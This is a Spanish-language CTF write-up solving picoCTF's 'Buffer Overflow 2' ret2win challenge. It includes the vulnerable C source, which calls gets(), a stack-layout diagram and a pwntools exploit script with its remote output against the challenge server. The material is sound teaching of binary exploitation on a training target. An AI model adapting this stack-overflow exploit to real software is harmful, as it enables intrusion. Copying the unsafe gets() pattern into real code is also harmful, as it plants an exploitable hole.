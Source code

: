 ```yaml
---
layout: post
title: Buffer Overflow 2 PicoGym
comments: true
categories: [Pwn, Writeups, PicoCTF]
---
```


En este post estaremos resolviendo un reto del [PicoGym](https://play.picoctf.org/practice/challenge/490?category=6&page=1&retired=0). Se trata de un reto tipo *ret2win* con parámetros muy sencillo

<br>
![Image]({{ site.baseurl }}/images/posts/picoGym/pico_logo.png){:width="200px"}

# Reconocimiento

   > Control the return address and arguments

Como nos muestra el enunciado, nuestro objetivo será llamar a `win` sobreescribiendo el `$eip`. Sólo tenemos que tener en cuenta que hay que pasar dos parámetros correctamente.

```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Explotación

Para lograr saltar a la función, tendremos que sobreescribir el `$eip`, seguido de una dirección de retorno (puede ser cualquier cosa, yo he puesto la dirección de `main` como buena práctica) y de los parámetros:

```
[ padding (104 bytes)          ]
[ dirección de win()           ] ← EIP salta aquí
[ dirección de retorno fake    ] ← no importa mucho
[ argumento 1 = 0xCAFEF00D     ]
[ argumento 2 = 0xF00DF00D     ]
```

Con un script en python se haría de la siguiente forma:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'vuln')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote("saturn.picoctf.net", 58837)
    elif args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
break *vuln+29
'''.format(**locals())

io = start()

io.recvuntil(b'string:')

offset = 112
win = exe.symbols['win']  # dirección de win()
main = exe.symbols['main']  # dirección de win()

payload  = b"A" * offset
payload += p32(win)             # EIP → win()
payload += p32(main)      # fake return address (puede ser cualquier cosa)
payload += p32(0xCAFEF00D)      # arg1
payload += p32(0xF00DF00D)      # arg2

io.sendline(payload)

io.interactive()
```

Y al ejecutar en remoto nos devolverá la flag:

```bash
python3 solver.py REMOTE
[*] '/home/kali/Downloads/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to saturn.picoctf.net on port 58837: Done
[*] Switching to interactive mode
 
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04\x08r\x93\x04\x08
picoCTF{<REDACTED>}Please enter your string: 
```

<br>